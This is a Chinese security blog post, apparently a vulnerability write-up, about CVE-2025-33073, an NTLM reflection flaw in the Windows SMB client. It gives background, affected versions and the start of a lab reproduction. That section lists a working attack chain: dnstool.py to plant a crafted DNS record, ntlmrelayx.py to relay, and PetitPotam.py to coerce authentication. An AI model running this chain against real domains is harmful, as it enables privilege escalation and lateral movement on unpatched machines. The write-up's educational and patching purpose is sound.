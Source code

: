 #  域内大杀器：CVE-2025-33073 NTLM Reflection攻击  
原创 谢公子  谢公子学安全   2025-06-15 16:53  
  
**漏洞背景和描述**  
  
2025年6月10日，微软发布了每月例行的安全补丁更新。在此次更新中，编号为CVE-2025-33073的严重漏洞引起了业界广泛的关注和重视。微软官方对该漏洞的描述为SMB客户端特权提升漏洞。然而，经过深入分析发现，该漏洞的威胁程度远远超出了普通意义上的“权限提升”范畴。  
  
具体来讲，CVE-2025-33073 漏洞属于 NTLM Reflection（NTLM反射）攻击，而NTLM Reflection攻击是NTLM Relay(NTLM 中继)攻击的一种特殊形式，指的是将获得的受害者机器的NTLM认证请求重新反射回该请求的原始机器。此前在讨论 NTLM Relay 攻击手法时，我们曾介绍过这种特殊的攻击模式。历史上，微软首次公开 NTLM Reflection 漏洞是在安全公告 MS08-068 中，并在随后的补丁中修复并严格限制了此类从 SMB 协议向 SMB 协议进行反射的攻击手段。因此，长期以来，行业内安全人员普遍认为通过 SMB 协议对自身进行 NTLM Reflection 攻击的手法已经彻底修复并无法再利用。然而，CVE-2025-33073 漏洞的出现，却重新激活了人们对这一攻击路径的关注，并再次暴露出 SMB 协议反射攻击的潜在风险。  
  
通过利用该漏洞，攻击者能够在仅拥有一个普通域用户权限的情况下，远程对域内任意计算机(域控除外)发起攻击，并获取目标机上的最高权限。更为严重的是，攻击者一旦入侵域内一台主机，便可借助该漏洞快速地进行横向移动与渗透，在整个企业域环境中蔓延扩散，最终可能实现对全域主机的整体控制，造成极为严重的安全威胁与不可挽回的损失。  
  
如下图所示，是微软官方对漏洞CVE-2025-33073漏洞所做的介绍。企业安全及IT管理员需高度重视此漏洞所带来的潜在风险，及时采取有效措施进行修补、管控与防范，以保障企业域网络环境的安全与稳定。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cVqPgLMLkm76930sAQZXjJ2puialB90lsVpJxqhicg49McMIrgnsIiczXJcTOnozgQwwolpBl7H0ycQ/640?wx_fmt=png "")  
  
  
**漏洞影响版本**  
  
所有未安装2025.6月安全补丁，且未强制启用SMB签名的所有域内计算机(域控除外)。其中域控制器默认强制启用了SMB签名，因此不受直接影响；而域内除域控外的其他计算机在默认情况下一般并不会开启SMB签名防护，因此在未打补丁的情况下，这些机器极易受到此漏洞的攻击风险。  
  
  
**漏洞复现**  
  
   
  
以下对该漏洞进行复现，实验环境如下：  
- 域：xie.com  
  
- 域控：10.211.55.4  
  
- 攻击者机器：10.211.55.132  
  
- 攻击目标： CA.xie.com (10.211.55.6)  
  
- 普通域用户：test  
  
```
# 创建一个特殊DNS记录，指向攻击者的机器10.211.55.132
python3 dnstool.py -u xie.com\\test -p "P@ssw0rd" -r ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.132 --action add 10.211.55.4

#进行监听，攻击目标机器
ntlmrelayx.py -t 10.211.55.6 -smb2support -ts

#进行强制触发，让目标机器向指定DNS记录进行NTLM认证
python3 PetitPotam.py -d xie.com -u test -p P@ssw0rd ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.211.55.6
```  
  
  
首先我们使用如下命令创建一个特殊的DNS记录，并将这个记录解析指向攻击者控制的服务器，以便后续捕获目标机器发起的认证流量，如图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cVqPgLMLkm76930sAQZXjJQGngg7s0YFXW1xjCtrK9gZ6m1AN2JGvIDaLTtKGbxicnO8D7oMqG5Ig/640?wx_fmt=png "")  
  